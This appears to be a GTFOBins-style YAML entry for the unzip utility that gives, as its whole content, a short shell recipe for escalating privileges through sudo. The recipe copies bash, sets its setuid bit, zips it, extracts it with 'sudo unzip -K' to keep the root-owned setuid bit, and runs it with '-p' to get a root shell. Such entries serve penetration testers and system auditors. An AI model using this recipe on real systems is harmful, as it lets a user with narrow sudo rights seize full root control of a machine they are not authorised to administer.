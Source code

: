 ```yaml
---
functions:
    sudo:
    - code: |
		cp /bin/bash .
		chmod +s ./bash
		zip bash.zip bash
		sudo unzip -K bash.zip
		./bash -p
---
```

